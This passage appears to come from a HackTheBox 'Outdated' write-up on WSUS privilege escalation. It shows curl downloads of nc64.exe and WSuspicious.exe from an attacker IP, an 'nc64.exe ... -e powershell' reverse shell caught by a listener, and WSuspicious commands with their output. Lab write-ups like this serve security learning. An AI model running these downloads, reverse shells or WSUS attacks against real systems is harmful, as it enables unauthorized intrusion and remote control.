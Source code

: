 Compile the project and transfer the binary to Kali attacking machine.


### Step 2
Upload the binaries needed for the attack:
```powershell
*Evil-WinRM* PS C:\Windows\Tasks> curl http://10.10.14.4/nc64.exe -o C:\Windows\Tasks\nc64.exe
*Evil-WinRM* PS C:\Windows\Tasks> curl http://10.10.14.4/WSuspicious.exe -o C:\Windows\Tasks\WSuspicious.exe
```

Running WSuspicious we get the and error that `PsExec64.exe` is not found:
```powershell
*Evil-WinRM* PS C:\Windows\Tasks> .\ws.exe /command:" - accepteula - s - d cmd / c 'echo test > C:\Windows\Tasks\wsuspicious.txt'" /autoinstall
Detected WSUS Server - wsus.outdated.htb
ws.exe : 
    + CategoryInfo          : NotSpecified: (:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
Unhandled Exception: System.IO.FileNotFoundException: Could not find file 'C:\Windows\Tasks\PsExec64.exe'.
```

Uploading the needed binary and try again:
```powershell
*Evil-WinRM* PS C:\Windows\Tasks> .\WSuspicious.exe /command:" - accepteula - s - d cmd / c 'echo test > C:\Windows\Tasks\wsuspicious.txt'" /autoinstall
Detected WSUS Server - wsus.outdated.htb
Listening on 'ExplicitProxyEndPoint' endpoint at Ip 127.0.0.1 and port: 13337
Hit any key to exit..

*Evil-WinRM* PS C:\Windows\Tasks> ls
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        8/22/2022   7:55 AM          45272 nc64.exe
-a----         8/3/2022   4:19 PM         514472 PsExec64.exe
-a----        8/22/2022  11:12 AM           2666 rootCert.pfx
-a----        8/22/2022  11:11 AM        4548096 WSuspicious.exe
```

The server dies immediately and the test-file is not present, something is weird. Testing around I managed to get the server working propperly by setting up a new reverse connection:
```powershell
*Evil-WinRM* PS C:\Windows\Tasks> ./nc64.exe 10.10.14.4 4488 -e powershell
➜  outdated nc -lvnp 4488
listening on [any] 4488 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.175] 49257
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\Tasks> .\WSuspicious.exe /command:" - accepteula - s - d cmd / c 'echo test > C:\Windows\Tasks\wsuspicious.txt'" /autoinstall
.\WSuspicious.exe /command:" - accepteula - s - d cmd / c 'echo test > C:\Windows\Tasks\wsuspicious.txt'" /autoinstall
Detected WSUS Server - wsus.outdated.htb
Listening on 'ExplicitProxyEndPoint' endpoint at Ip 127.0.0.1 and port: 13337 
Hit any key to exit..
```
